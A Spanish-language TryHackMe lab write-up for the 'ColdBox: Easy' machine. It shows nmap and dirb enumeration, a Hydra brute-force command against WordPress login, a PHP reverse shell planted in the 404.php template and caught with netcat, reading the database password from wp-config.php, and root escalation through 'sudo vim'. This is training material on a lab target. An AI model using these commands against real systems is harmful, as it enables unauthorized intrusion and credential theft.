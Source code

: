 ```yaml
---
title: "ColdBox: Easy"
date: 2024-03-27 16:00 +/-0000
categories: TryHackMe Máquina
tags:
  - tryhackme
  - easy
  - wordpress
author: okud4
toc: true
img_path: /assets/img/
image: /banners/Cold-Box.png
---
```



Empezamos escaneando la direccion ip de la máquina con nmap, pero antes de nada en la web [Station X](https://www.stationx.net/nmap-cheat-sheet/) tenemos una buena herramienta para personalizar el tipo de escaneo que deseamos realizar.

Usare un comando para que detecte todos los puertos abiertos, detecte el sistema operativo.

```bash
sudo nmap -p- -O -A -T4 -vvv <ip>

PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: ColddBox | One more machine
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
4512/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4e:bf:98:c0:9b:c5:36:80:8c:96:e8:96:95:65:97:3b (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDngxJmUFBAeIIIjZkorYEp5ImIX0SOOFtRVgperpxbcxDAosq1rJ6DhWxJyyGo3M+Fx2koAgzkE2d4f2DTGB8sY1NJP1sYOeNphh8c55Psw3Rq4xytY5u1abq6su2a1Dp15zE7kGuROaq2qFot8iGYBVLMMPFB/BRmwBk07zrn8nKPa3yotvuJpERZVKKiSQrLBW87nkPhPzNv5hdRUUFvImigYb4hXTyUveipQ/oji5rIxdHMNKiWwrVO864RekaVPdwnSIfEtVevj1XU/RmG4miIbsy2A7jRU034J8NEI7akDB+lZmdnOIFkfX+qcHKxsoahesXziWw9uBospyhB
|   256 88:17:f1:a8:44:f7:f8:06:2f:d3:4f:73:32:98:c7:c5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKNmVtaTpgUhzxZL3VKgWKq6TDNebAFSbQNy5QxllUb4Gg6URGSWnBOuIzfMAoJPWzOhbRHAHfGCqaAryf81+Z8=
|   256 f2:fc:6c:75:08:20:b1:b2:51:2d:94:d6:94:d7:51:4f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE/fNq/6XnAxR13/jPT28jLWFlqxd+RKSbEgujEaCjEc
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```

Obtengo como resultado que en el puerto 80 corre un servidor Wordpress desactualizado y en el puerto 4512 se podria acceder mediante SSH. Lo mas facil en este caso es centrar el ataque en Wordpres.

Usando `dirb http://<ip>` me listará todos los directorios disponibles. Como resultado obtengo el directorio `/hidden/` y al acceder a dicho directorio obtengo una página web. Compruebo su código y obtengo un dato interesante:

```bash
<h2>[EDITADO], you changed Hugo's password, when you can send it to him so he can continue uploading his articles. Philip</h2>
```

Compruebo que el usuario es válido, para hacerlo lo hago directamente en el login, si el usuario no existe, el propio login de Wordpress lo notifica:

![login](capturas/coldbox/userlogin.png)

Usaré Hydra para obtener acceso al blog.

```bash
hydra -l [USUARIO] -P /usr/share/wordlists/rockyou.txt 10.10.117.11 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.117.11%2Fwp-admin%2F&testcookie=1:S=Location" 
```

Y obtenemos el password para dicho usuario:

```bash
[80][http-post-form] host: 10.10.117.11   login: [USUARIO]   password: [PASSWORD]
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-03-27 18:02:36
```

Ahora que tengo acceso al Wordpress, subo una shell para poder explotar el servidor. En mi caso, editaré la página 404.php y aqui incluiré una shell en php. Existe un plugin para navegador que me facilita el trabajo, se llama **_HackerTools_**. 

![template wordpress](capturas/coldbox/template.png)

Ahora para poder acceder al shell, en la terminal escribo el comand para conectarme por netcat y, para que esto funcione, en el navegador debo conseguir un error 404 (por ejemplo, con una url inexistente)

```bash
~ ❯ nc -lvnp 4455       
listening on [any] 4455 ...
connect to [10.9.206.239] from (UNKNOWN) [10.10.117.11] 50862
Linux ColddBox-Easy 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 18:25:08 up  1:18,  0 users,  load average: 0.00, 0.00, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

Ya estoy dentro, asi que ahora mejoro la terminal para poder trabajar con ella. El siguiente paso es ejecutar un comando que me permita localizar los archivos .txt 

```bash
www-data@ColddBox-Easy:/$ find / -type f -name '*.txt' 2>/dev/null
```

Tras localizar las posibles flags, para leer el contenido necesito ingresar como superusuario.

Para ello, primero obtengo el password que se encuentra alojado en la base de datos y la utilizo para logearme con el usuario y así obtener el flag oculto en el archivo user.txt.

```bash
www-data@ColddBox-Easy:/$ cd var/www/html/
www-data@ColddBox-Easy:/var/www/html$ cat wp-config.php | grep "DB_PASSWORD"
define('DB_PASSWORD', '[*]');
www-data@ColddBox-Easy:/var/www/html$ su c0ldd
Password: 
c0ldd@ColddBox-Easy:/var/www/html$ cd
c0ldd@ColddBox-Easy:~$ ls
user.txt
c0ldd@ColddBox-Easy:~$ cat user.txt 

```

Ahora, necesito ser usuario root. Ejecuto el comando `sudo -l` para obtener los binarios a los que poder atacar.

```bash
c0ldd@ColddBox-Easy:/$ sudo -l
[sudo] password for c0ldd: 
Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
c0ldd@ColddBox-Easy:/$ sudo vim
```

Ejecuto **_Vim_** como superusuario y dentro escribo 

```vim
:!bin/bash
```

y obtengo el ultimo flag:

```bash
root@ColddBox-Easy:/# cat /root/root.txt 
```

